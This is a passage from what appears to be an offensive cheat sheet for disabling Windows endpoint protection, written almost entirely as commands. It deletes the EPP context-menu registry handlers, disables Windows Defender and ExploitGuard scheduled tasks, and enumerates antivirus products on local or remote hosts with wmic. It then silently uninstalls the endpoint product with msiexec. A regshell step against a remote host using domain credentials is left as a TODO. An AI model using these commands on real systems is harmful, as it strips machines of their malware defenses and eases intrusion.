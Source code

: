 #### 1.3.3.1 - Command Prompt

```
C:\> reg delete "HKCR\*\shellex\ContextMenuHandlers\EPP" /f

C:\> reg delete "HKCR\Directory\shellex\ContextMenuHandlers\EPP" /f

C:\> reg delete "HKCR\Drive\shellex\ContextMenuHandlers\EPP" /f
```

#### 1.3.3.2 - Regshell

TODO: Complete this

```
$ regshell -U <DOMAIN>/<username>%<password> -R <IP>

> predef HKEY_LOCAL_MACHINE
> cd Policies\Microsoft
```

## 1.4 - Schtasks

```
C:\> schtasks /change /tn "Microsoft\Windows\ExploitGuard\ExploitGuard MDM Policy Refresh" /disable

C:\> schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /disable

C:\> schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /disable

C:\> schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /disable

C:\> schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Verification" /disable
```

## 1.5 - Msiexec

### 1.5.1 - Uninstall Endpoint

- Command Prompt

```
C:\> wmic [/node:<IP>] product get name,identifyingnumber

C:\> wmic [/node:<IP>] /namespace:\\root\securitycenter2 path antivirusproduct

C:\> wmic [/node:<IP>] /namespace:\\root\securitycenter2 path antivirusproduct get * /format:list

C:\> wmic [/node:<IP>] /namespace:\\root\securitycenter2 path antivirusproduct get displayname

C:\> msiexec /q /qn /norestart /uninstall {<GUID>}
```
